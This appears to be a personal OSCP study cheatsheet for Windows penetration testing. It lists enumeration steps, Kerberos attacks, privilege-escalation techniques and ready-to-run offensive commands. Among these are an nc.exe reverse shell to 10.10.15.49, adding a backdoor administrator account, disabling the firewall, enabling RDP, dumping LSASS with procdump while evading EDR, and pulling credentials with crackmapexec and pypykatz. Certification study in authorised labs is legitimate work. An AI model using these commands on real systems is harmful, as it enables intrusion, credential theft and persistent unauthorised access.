 # OSCP Helpsheet
Simple helpsheet or cheatsheet whatever you want to call it for enumerating machines, guidance on good commands to run, etc,.
Probably wont put any linux since its straightforward but windows, idk man privs are always weird

## Windows

### Checklist from start to finish!
- What ports are open, obviously; what services are they running
- SCAN UDP!!!
- Can we access Kerberos on the domain controller?
    - Use kerbrute to bruteforce usernames for potential Kerberos Pre-auth?
- SMB Access, always try:
    - Guest
    - NULL: ''
    - No user
- Valid credentials?
    - Connect to SMB shares, use crackmap to enumerate permissions
    - ldap dump? use bloodhound-python or ldapdomaindump or ldapsearch
    - Try to login to all available services :)
- Post initial access
    - Run winpeas.exe, every time. Thoroughly examine results for cleartext credentials or obvious vulnerabilities
    - Check the groups your current user is in
    - Use powerup.ps1 for a possible quick privesc
    - SeImpersonatePrivilege is ROOT. Use GodPotato.exe to create and execute a malicious service to get NT\Authority
    - Hacktricks, always refer to hacktricks website
    - ippsec.rocks is a great resource too, as well as 0xdf's writeups. Smart people..
    - Enumerate all services on the machine, can you manipulate them
    - Abuse Get-ChildItem to find loot
    - Check groups and nested groups, bloodhound is a great tool
    - Look at all the log files
    - Check for services that are only accessible locally, use chisel or similar to access remotely
    - Do NOT miss a single ConsoleHost_history.txt file. Always gold in those..
    - valid credentials, see if any users are kerberoastable
- Post enumeration
    - Mimikatz, dump dump dump
    - Check admin ConsoleHost_history.txt
    - Look in previously unaccessible directories for log or credential files
    - Establish persistance

### Credential one-liner
```$pwd = ConvertTo-SecureString 'password' -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential('DOMAIN\username', $pwd)```

### Kerbrute
```kerbrute userenum -d {domain} /wordlist --dc {ip}```
If we find a valid username see if preauth is set, easy win
```impacket-GetNPUsers -request -dc-ip {ip} domain/username```


### PowerShell
```PS> Start-Process -FilePath "C:\Users\User\nc.exe" -ArgumentList "-e cmd.exe 10.10.15.49 443" -Credential $creds```
```PS> Get-LocalUser```
```PS> Get-LocalGroup```
```PS> Get-LocalGroupMember {group}```
```PS> Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname```
```PS> Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname```
```PS> Get-Process```
```PS> Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue```
```PS> Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue```
```PS> Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue```
```PS> runas /user:backupadmin cmd```
```PS> Get-History```
```PS> (Get-PSReadlineOption).HistorySavePath```
```PS> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}```
```PS> Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}```
```PS> Get-WmiObject Win32_Service | Where-Object {$_.PathName -like 'C:\Status*'}```
```PS> Get-WmiObject -Query "SELECT * FROM Win32_Service WHERE Name = 'DevService'" | Select-Object Name, StartMode, State, Status, PathName, DisplayName```
```PS> Get-Service -Name "DevService" | Format-List *```
```PS> Get-Process backup -ErrorAction SilentlyContinue | Watch-Command -Difference -Continuous -Seconds 10```

### Service DLL Hijacking
DLL Safe boot order:
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
----------------------------------------------------------------------
- Copy suspicious binary to our attack windows machine
- Execute ProcMon to monitor the binary as it is started to see what DLLs it is loading
- Create file can be used to create or open a file, dont be fooled!
- See dummy_dll.cpp for an example dll file
```PS> Restart-Service {service}```

### Unquoted service paths
- If the service path is unquoted and contains spaces we can probably hijack
- PowerUp.ps1 can find unquoted service paths:
```PS> Get-UnquotedService```
```PS> Get-CimInstance -ClassName win32_service | Select Name,State,PathName```
```cmd> wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """```

### Scheduled Tasks
```PS> schtasks /query /fo LIST /v```
```PS> Get-ScheduledTask | Where-Object { $_.TaskPath -notlike "\Microsoft*" }```
```PS> schtasks /query /fo LIST /v | Out-String -Stream | Select-String "TaskName|Author|Task To Run"```
```PS> schtasks /query /fo LIST /v | Out-String -Stream | Select-String -Pattern "^Folder:" -Context 0,3 | Where-Object { $_ -notmatch "\\Microsoft" } | ForEach-Object { $_.Context.PostContext[0] }```


### Enable RDP
```cmd> reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f```
```cmd> reg add \"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\" /v fDenyTSConnections /t REG_DWORD /d 0 /f```

### Add new user
```cmd> net user yam P@ssword123 /add```
```cmd> net localgroup Administrators yam /add```

### Disable firewalls
```cmd> netsh advfirewall set allprofiles state off```

### Share access
```PS> Grant-SmbShareAccess -Name "ShareName" -AccountName "DOMAIN\UserOrGroupName" -AccessRight Full -Force```
```PS> Grant-SmbShareAccess -Name \"ADMIN$\" -AccountName \"MS01\yam\" -AccessRight Full -Force```
```cmd> reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f```
```cmd> reg add \"HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\" /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f```

### Easy SMB transfers
```start smb server with impacket-smbserver```
```cmd> net use \\10.10.10.10\share /u:df df```
```cmd> copy 20191018035324_BloodHound.zip \\10.10.10.10\share\```
```cmd> del {file}```
```cmd> net use /d```

### Dumping LSASS without mimikatz
```cmd> whoami /priv```
make sure that we have SeDebugPrivilege
on modern machines windows will kill any PS process that attempts to dump LSASS so this needs to be done from CMD or .NET tools

#### TASK MANAGER
You can create a dump of LSASS using the task manager, right click on the lsass.exe process and select create dump file, then load this into mimikatz

Being connected with xfreerdp is great because we can use this to automatically mount a shared drive to copy files using the following syntax:
```$ xfreerdp /v:{ipaddress} /u:USERNAME /p:PASSWORD /d:DOMAIN /drive:SHARE,/path/shared```
This creates a shared drive named SHARE on the windows machine, which we can then drop the dump into
We can then use pypykatz to extract the stored credentials from the dump:
```$ pypykatz lsa minidump lsass.DMP```

#### PROCDUMP
```cmd> procdump.exe -accepteula -ma lsass.exe out.dmp```
Some EDR solutions will be alerted by this and block based on the "lsass" so instead we can find the process ID and pass that
```PS> get-process lsass```
```PS> tasklist | findstr lsass```
Then dump
```cmd> procdump.exe -accepteula -ma {id} out.dmp```

#### CRACKMAPEXEC!!!
```$ crackmapexec smb {ip address} -u administrator -p Password123 --lsa```
